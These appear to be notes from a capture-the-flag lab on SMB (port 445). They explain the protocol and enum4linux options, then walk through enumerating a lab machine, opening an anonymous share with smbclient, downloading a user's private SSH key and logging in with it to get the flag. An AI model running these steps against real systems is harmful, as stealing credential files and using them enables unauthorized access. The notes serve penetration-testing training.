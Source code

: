 **SMB - Server message block port 445**  
Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.  
Servers make file systems and other resources (printers,named pipes, APIs) available to clients on the network. Clientcomputers may have their own hard disks, but they also want accessto the shared file systems and printers on the servers.  
Once they have established a connection, clients can then sendcommands (SMBs) to the server that allow them to access shares,open files, read and write files, and generally do all the sortof things that you want to do with a file system. However, inthe case of SMB, these things are done over the network  
  
**Enumerating SMB**  
Enum4Linux  
$enum4linux [options] ip  
  
TAG FUNCTION  
  
-U get userlist  
-M get machine list  
-N get namelist dump (different from -U and-M)  
-S get sharelist  
-P get password policy information  
-G get group and member list  
  
-A all of the above (full basic enumeration)  
  
Enum4Linux - $enum4linux [options] ip  
$ enum4linux -A 10.10.172.114  
# we pulled the name of the machine POLOSMB and an interesting share “profiles”  
  
smbclient  
$smbclient //10.10.172.114/profiles -U anonymous -p 445  
# if our interesting share has been configured to allow anonymous access, I.E it doesn't require authentication to view the files. We can do this easily by using a exploit:  
-using the username "Anonymous"  
-connecting to the share we found during the enumeration stage  
-and not supplying a password.  
  
once connected - download the following  
$ get .profile  
$ get "Working From Home Information.txt  
# found users name  
$ cd .ssh  
  
$ get id_rsa  
# rsa key  
#after downloading  
$ chmod 600 id_rsa  
$ get id_rsa.pub  
# rsa key info including cactus@polosmb  
  
use the following info to login in the box  
the rsa key id_rsa, the username cactus and the ip  
  
$ssh -i ./id_rsa cactus@10.10.172.114  
  
Pull the smb.txt file to grab the flag
